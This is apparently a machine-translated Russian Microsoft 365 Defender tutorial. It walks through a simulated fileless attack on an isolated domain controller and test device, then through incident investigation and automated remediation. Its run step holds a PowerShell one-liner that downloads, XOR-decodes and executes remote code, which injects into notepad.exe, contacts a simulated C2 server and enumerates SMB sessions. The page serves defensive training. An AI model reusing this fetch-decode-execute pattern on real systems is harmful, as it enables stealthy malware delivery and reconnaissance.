

# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a>Запуск имитации атаки в Microsoft 365 Defender пилотной среде


Эта статья — [шаг 1 из 2](eval-defender-investigate-respond.md) в процессе выполнения расследования и реагирования на инцидент в Microsoft 365 Defender с помощью пилотной среды. Дополнительные сведения об этом процессе см. в статье [обзор.](eval-defender-investigate-respond.md)

После подготовки пилотной среды настало время проверить Microsoft 365 Defender и возможности автоматического расследования и восстановления, создав инцидент с имитацией атаки и используя портал Microsoft 365 Defender для расследования и реагирования. [](eval-defender-investigate-respond.md)

Инцидент в Microsoft 365 Defender — это коллекция коррелирующих оповещений и связанных данных, которые составляют историю атаки.

Microsoft 365 службы и приложения создают оповещения при обнаружении подозрительного или вредоносного события или действия. Отдельные оповещения предоставляют ценные подсказки о завершенной или продолжающейся атаке. Однако в атаках обычно используются различные методы для различных типов сущностями, например устройств, пользователей и почтовых ящиков. Результатом является несколько оповещений для нескольких сущностями в клиенте.

>[!Note]
>Если вы совершенно новые для анализа безопасности и [](first-incident-overview.md) реагирования на инциденты, см. в ответе на первое поведение инцидента, чтобы получить экскурсию по типичному процессу анализа, исправлений и после инцидента обзора.
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a>Имитация атак с помощью Microsoft 365 Defender портала

Портал Microsoft 365 Defender имеет встроенные возможности для создания имитации атак на пилотную среду:

- Обучение имитации атаки для Microsoft 365 Defender для Office 365 [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) на .
  
  На портале Microsoft 365 Defender выберите обучение **& совместной > атаки.**

- Учебные пособия по & для Microsoft 365 Defender для конечных точек [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) по .

  На портале Microsoft 365 Defender выберите **конечные точки > & моделирования.**

### <a name="defender-for-office-365-attack-simulation-training"></a>Обучение моделированию Office 365 Defender

Defender for Office 365 с Microsoft 365 E5 или Microsoft Defender для Office 365 Plan 2 включает обучение имитации атак для фишинговых атак. Основные действия:

1. Создание имитации

   Инструкции по созданию и отправке нового моделирования см. в инструкции по имитации [фишинговой атаки.](/microsoft-365/security/office-365-security/attack-simulation-training)

2. Создание полезной нагрузки

   Инструкции по созданию полезной нагрузки для использования в имитации см. в инструкции по созданию настраиваемой полезной нагрузки для обучения [имитации атаки.](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)

3. Получение информации

   Инструкции по пошаговую информацию о том, как получить сведения с отчетами, см. в рублях [Gain insights through Attack simulation training.](/microsoft-365/security/office-365-security/attack-simulation-training-insights)

Дополнительные сведения см. в [см. в рублях Simulations.](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a>Руководство по атаке defender для конечной точки & моделирования

Вот моделирование Defender для конечных точек от Корпорации Майкрософт:

- Отбрасыватель документа
- Автоматическое расследование (backdoor)

Существуют дополнительные имитации из Атак IQ и SafeBreach. Существует также набор учебных пособий.

Для каждого моделирования или руководства:

1. Скачайте и прочитайте соответствующий пакет документов с выбранным моделированием или сценарием.

2. Скачайте файл моделирования. Вы можете скачать файл или скрипт на тестовом устройстве, но это не является обязательным.

3. Запустите файл или сценарий моделирования на тестовом устройстве по инструкции при пройдите по документу.

 Дополнительные сведения см. в [веб-сайте Experience Microsoft Defender for Endpoint с помощью имитации атаки.](/microsoft-365/security/defender-endpoint/attack-simulations)

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a>Имитация атаки с помощью изолированного контроллера домена и клиентского устройства (необязательно)

В этом необязательный упражнении реагирования на инцидент вы смоделируете атаку на изолированный контроллер доменных служб Active Directory Domain Services (AD DS) и устройство Windows 10 с помощью сценария PowerShell, а затем изучите, исправление и устранение инцидента.

Сначала необходимо добавить конечные точки в пилотную среду.

### <a name="add-pilot-environment-endpoints"></a>Добавление конечных точек пилотной среды

Сначала необходимо добавить изолированный контроллер домена AD DS и устройство Windows 10 в пилотную среду.

1. Убедитесь, что клиент пилотной среды [включил Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).

2. Убедитесь, что контроллер домена:

   - Выполняется Windows Server 2008 R2 или более поздней версии.
   - Отчеты [в Microsoft Defender для identity](/azure/security-center/security-center-wdatp) и включено [удаленное управление](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).
   - Включена [система Microsoft Defender для удостоверений и Microsoft Cloud App Security интеграции.](/cloud-app-security/mdi-integration)
   - Создается ли тестовый пользователь в тестовом домене. Разрешения на уровне администратора не нужны.

3. Убедитесь, что ваше тестового устройства:

   - Выполняется Windows 10 версии 1903 или более поздней версии.
   - Присоединяется к домену контроллера домена AD DS.
   - Включено [антивирусная программа](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) включено. Если у вас возникли проблемы с включением антивирусная программа , см. эту тему [устранения неполадок.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
   - Находится [на борту в Microsoft Defender для конечной точки](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Если вы используете группы клиентов и устройств, создайте специальную группу устройств для тестового устройства и нажмите ее на верхний уровень.

Одним из вариантов является возможность хозяйского контроллера домена AD DS и тестового устройства в качестве виртуальных машин в Microsoft Azure инфраструктурных службах. Инструкции можно использовать на этапе [1](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)смоделированного руководства лаборатории тестирования предприятия, но пропустить создание виртуальной машины APP1.

Вот результат.


Вы смоделируете сложную атаку, которая использует передовые методы, чтобы скрыться от обнаружения. При атаке были открыты сеансы блокировки сообщений сервера (SMB) на контроллерах домена и извлечены последние IP-адреса устройств пользователей. Эта категория атак обычно не включает файлы, сброшенные на устройство жертвы, и они происходят исключительно в памяти. Они "живут за счет земли", используя существующие системные и административные средства, и вводят свой код в системные процессы, чтобы скрыть их выполнение. Такое поведение позволяет им уклоняться от обнаружения и сохраняться на устройстве.

В этом моделировании пример сценария начинается со сценария PowerShell. В реальном мире пользователь может быть обманут при запуске скрипта или сценарий может работать с удаленного подключения к другому компьютеру с ранее зараженного устройства, что указывает на то, что злоумышленник пытается двигаться по сети с другой стороны. Обнаружение этих скриптов может быть затруднено, так как администраторы также часто запускают сценарии удаленно для выполнения различных административных действий.


Во время моделирования атака впрыскиивает код оболочки в казалось бы невинный процесс. Сценарий требует использования notepad.exe. Мы выбрали этот процесс для моделирования, но злоумышленники, скорее всего, будут нацелены на длительный системный процесс, например svchost.exe. Затем код оболочки отправляется на контакт с сервером командно-диспетчерской системы (C2) злоумышленника, чтобы получить инструкции о том, как действовать дальше. Сценарий пытается выполнять разведывательные запросы в отношении контроллера домена (DC). Разведка позволяет злоумышленнику получать сведения о последних сведениях входа пользователя. После получения злоумышленниками этой информации они могут перемещаться по сети, чтобы перейти к определенной конфиденциальной учетной записи.

> [!IMPORTANT]
> Для достижения оптимальных результатов выполните инструкции по моделированию атак как можно ближе.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>Запуск изолированного моделирования атаки контроллера домена AD DS

Для запуска моделирования сценария атаки:

1. Убедитесь, что пилотная среда включает изолированный контроллер домена AD DS и Windows 10 устройство.

2. Во входе на тестовом устройстве с тестовой учетной записью пользователя.

3. Откройте окно Windows PowerShell на тестовом устройстве.

4. Скопируйте следующий сценарий моделирования:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Если вы откроете эту статью в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов или введения дополнительных разрывов строк. В этом случае скачайте этот документ и откройте его в Adobe Reader.

5. Вклеить и запустить скопированные скрипты в окне PowerShell.

> [!NOTE]
> Если вы используете PowerShell с помощью протокола удаленного рабочего стола (RDP), используйте команду Type Clipboard Text в клиенте RDP, так как метод **CTRL-V** или метод вклейки правой кнопкой мыши может не работать. Недавние версии PowerShell иногда также не принимают этот метод, вам может потребоваться скопировать Блокнот в памяти, скопировать его в виртуальной машине, а затем вклеить его в PowerShell.

Через несколько секунд приложение Блокнот откроется. Смоделированный код атаки будет вводиться в Блокнот. Держите автоматически созданный экземпляр Блокнот открытым для полного сценария.

Смоделированный код атаки будет пытаться связываться с внешним IP-адресом (имитирующим сервер C2), а затем пытаться вести разведку в отношении контроллера домена через SMB.

Это сообщение будет отображаться на консоли PowerShell после завершения сценария.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Чтобы увидеть функцию Automated Incident and Response в действии, notepad.exe процесс. Вы увидите, как автоматические инциденты и ответы останавливают Блокнот процесс.

### <a name="investigate-the-incident-for-the-simulated-attack"></a>Расследование инцидента для имитации атаки

> [!NOTE]
> Перед тем, как мы пройдемся по этому моделированию, просмотрите следующее видео, чтобы узнать, как управление инцидентами помогает собрать связанные оповещения вместе в рамках процесса расследования, найти их на портале и как это может помочь вам в операциях по безопасности:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Перейдя на точку зрения аналитика SOC, вы можете начать исследовать атаку на Microsoft 365 Defender портале.

1. Откройте портал [Microsoft 365 Defender .](https://security.microsoft.com/)

2. Из области навигации выберите **Инциденты & оповещения > инциденты**.

3. Новый инцидент для имитации атаки появится в очереди инцидента.

    

#### <a name="investigate-the-attack-as-a-single-incident"></a>Расследование атаки как одного инцидента

Microsoft 365 Defender сопоставляет аналитику и совмещает все связанные оповещения и расследования из различных продуктов в одну сущность инцидента. При этом Microsoft 365 Defender более широкую историю атак, позволяющую аналитику SOC понимать сложные угрозы и реагировать на них.

Оповещения, созданные во время этого моделирования, связаны с той же угрозой, и в результате автоматически агрегируются как один инцидент.

Чтобы просмотреть инцидент:

1. Откройте портал [Microsoft 365 Defender .](https://security.microsoft.com/)

2. Из области навигации выберите **Инциденты & оповещения > инциденты**.

3. Выберите самый новый элемент, нажав на круг, расположенный слева от имени инцидента. На боковой панели отображаются дополнительные сведения об инциденте, включая все связанные оповещения. Каждый инцидент имеет уникальное имя, которое описывает его на основе атрибутов включенных в него оповещений.

   Оповещения, которые показаны на панели мониторинга, могут фильтроваться на основе ресурсов служб: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender для конечной точки, Microsoft 365 Defender и Microsoft Defender для Office 365.

3. Выберите **страницу Открытый** инцидент, чтобы получить дополнительные сведения об инциденте.

   На странице **Incident** можно увидеть все оповещения и сведения, связанные с инцидентом. Эти сведения включают объекты и активы, участвующие в оповещении, источник обнаружения оповещений (например, Microsoft Defender для удостоверений или Microsoft Defender для конечной точки), а также причину их взаимосвязи. Просмотр списка оповещений об инциденте показывает прогрессирование атаки. Из этого представления можно просмотреть и изучить отдельные оповещения.

   Вы также можете нажать **кнопку Управление** инцидентом из правой стороны меню, чтобы отметить инцидент, назначить его себе и добавить комментарии.

#### <a name="review-generated-alerts"></a>Просмотр созданных оповещений

Рассмотрим некоторые оповещения, созданные во время имитации атаки.

> [!NOTE]
> Мы проявим только несколько оповещений, созданных во время имитации атаки. В зависимости от версии Windows и Microsoft 365 Defender, запущенных на тестовом устройстве, вы можете видеть больше оповещений, которые отображаются в несколько ином порядке.


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a>Предупреждение. Наблюдается подозрительный процесс впрыскивания (Источник: Microsoft Defender для конечной точки)

Расширенные злоумышленники используют сложные и скрытные методы для сохраняющихся в памяти и скрыться от средств обнаружения. Одним из распространенных методов является работа в рамках доверенного системного процесса, а не из вредоносного исполняемого, что делает его трудно для средств обнаружения и операций безопасности, чтобы обнаружить вредоносный код.

Чтобы позволить аналитикам SOC ловить эти расширенные атаки, датчики глубокой памяти в Microsoft Defender для Конечной точки предоставляют нашей облачной службе беспрецедентную видимость в различных методах впрыскивания кода. На следующем рисунке показано, как Defender для конечной точки обнаруживали и оповещали о попытке ввести код <i>вnotepad.exe. </i>


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a>Предупреждение. Непредвиденное поведение, наблюдаемое процессом без аргументов командной строки (Источник: Microsoft Defender для конечной точки)

Обнаружение microsoft Defender для конечных точек часто нацелено на наиболее распространенный атрибут метода атаки. Этот метод обеспечивает долговечность и повышает планку перехода злоумышленников на более новую тактику.

Мы используем крупномасштабные алгоритмы обучения для установления нормального поведения общих процессов в организации и во всем мире и следим за тем, когда эти процессы показывают аномальное поведение. Эти аномальные действия часто указывают на то, что внедрили и запускали в другом доверяемом процессе.

В этом сценарии <i> процесс </i>notepad.exeаномальное поведение, связанное с связью с внешним расположением. Этот результат не зависит от конкретного метода, используемого для внедрения и выполнения вредоносного кода.

> [!NOTE]
> Поскольку это предупреждение основано на моделях машинного обучения, которые требуют дополнительной обработки backend, может потребоваться некоторое время, прежде чем вы увидите это оповещение на портале.

Обратите внимание, что сведения об оповещении включают внешний IP-адрес — индикатор, который можно использовать в качестве поворота для расширения расследования.

Выберите IP-адрес в дереве процесса оповещения, чтобы просмотреть страницу сведений о IP-адресе.


На следующем рисунке отображается выбранная страница сведений об IP-адресе (щелкнув IP-адрес в дереве процесса Оповещения).


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Оповещение. Разведка пользовательских и IP-адресов (SMB) (Источник: Microsoft Defender for Identity)

Составление переучета с помощью протокола Блокировка серверных сообщений (SMB) позволяет злоумышленникам получать последние сведения о логосе пользователя, которые помогают им перемещаться по сети, чтобы получить доступ к определенной конфиденциальной учетной записи.

В этом обнаружении срабатывает оповещение при запуске переумерия сеанса SMB с контроллером домена.


#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a>Просмотрите хронологию устройства с помощью Microsoft Defender для конечной точки

После изучения различных оповещений в этом инциденте перейдите на страницу инцидента, которая была исследована ранее. Выберите **вкладку Devices** на странице инцидента, чтобы просмотреть устройства, участвующие в этом инциденте, о чем сообщили Microsoft Defender для конечной точки и Microsoft Defender for Identity.

Выберите имя устройства, на котором была совершена атака, чтобы открыть страницу сущности для этого конкретного устройства. На этой странице можно увидеть оповещения, которые были вызваны и связанные события.

Выберите **вкладку Timeline** для открытия временной шкалы устройства и просмотра всех событий и поведения, наблюдаемых на устройстве в хронологическом порядке, впереме с поднятыми оповещениями.


Расширение некоторых наиболее интересных поведений содержит полезные сведения, например, деревья процессов.

Например, прокрутите вниз, пока не найдете наблюдаемую инъекцию подозрительного процесса **оповещения.** Выберите **powershell.exe,** впрыскивающееся в notepad.exe процесса ниже него, чтобы отобразить полное дерево процесса для этого поведения в графе сущностями событий на боковой области.  При необходимости используйте панели поиска для фильтрации.


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a>Просмотрите сведения о пользователе с помощью Microsoft Cloud App Security

На странице инцидента выберите вкладку **"Пользователи",** чтобы отобразить список пользователей, участвующих в атаке. В таблице содержатся дополнительные сведения о каждом пользователе, включая оценку приоритета расследования **каждого** пользователя.

Выберите имя пользователя, чтобы открыть страницу профиля пользователя, на которой может быть проведено дополнительное исследование. [Узнайте больше о расследовании рискованных пользователей.](/cloud-app-security/tutorial-ueba#identify)


#### <a name="automated-investigation-and-remediation"></a>Автоматическое исследование и защита

> [!NOTE]
>Прежде чем мы пройдемся по этому моделированию, просмотрите следующее видео, чтобы узнать, что такое автоматическое самовосстановления, где найти его на портале и как оно может помочь в операциях по обеспечению безопасности:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Перейдите к инциденту на Microsoft 365 Defender портале. На **вкладке "Исследования"** на странице **Incident** показаны автоматические расследования, которые были инициированы Microsoft Defender для удостоверений и Microsoft Defender для конечной точки. На приведенном ниже снимке экрана отображается только автоматическое расследование, инициированное Defender для конечной точки. По умолчанию Defender для конечной точки автоматически устраняет артефакты, найденные в очереди, что требует исправлений.


Выберите оповещение, которое вызвало расследование, чтобы открыть страницу **сведений о расследовании.** Вы увидите следующие сведения:

- Оповещение(ы), которое вызвало автоматическое расследование.
- Влияние пользователей и устройств. Если индикаторы находятся на дополнительных устройствах, эти дополнительные устройства также будут перечислены.
- Список доказательств. Объекты, найденные и проанализированы, например файлы, процессы, службы, драйверы и сетевые адреса. Эти сущности анализируются для возможных связей с оповещением и оцениваются как доброкачественные или вредоносные.
- Найдены угрозы. Известные угрозы, найденные в ходе расследования.

> [!NOTE]
> В зависимости от времени может быть запущено автоматическое расследование. Подождите несколько минут, пока процесс не завершится, прежде чем собирать и анализировать доказательства и анализировать результаты. Обновите **страницу сведения о** расследовании, чтобы получить последние результаты.


В ходе автоматического исследования Microsoft Defender for Endpoint определил процесс notepad.exe, который был введен в качестве одного из артефактов, требующих восстановления. Defender for Endpoint автоматически останавливает подозрительную инъекцию процесса в рамках автоматического восстановления.

Вы можете <i>notepad.exe</i> из списка запущенных процессов на тестовом устройстве.

#### <a name="resolve-the-incident"></a>Устранение инцидента

После завершения расследования и подтверждения его устранения вы уладили инцидент.

На странице **Инцидент** выберите Управление **инцидентом**. Установите состояние для **устранения инцидента** и выберите **true alert** для классификации и **тестирования** безопасности для определения.



После устранения инцидента он устраняет все связанные оповещения на Microsoft 365 Defender портале и соответствующих порталах.

Это завершает моделирование атаки для анализа инцидентов, автоматического расследования и разрешения инцидентов.

## <a name="next-step"></a>Следующее действие

[](eval-defender-investigate-respond-additional.md)

Шаг 2 из 2. [Попробуйте Microsoft 365 Defender реагирования на инциденты](eval-defender-investigate-respond-additional.md)

### <a name="navigation-you-may-need"></a>Навигация может потребоваться

[Создание среды Microsoft 365 Defender оценки](eval-create-eval-environment.md)
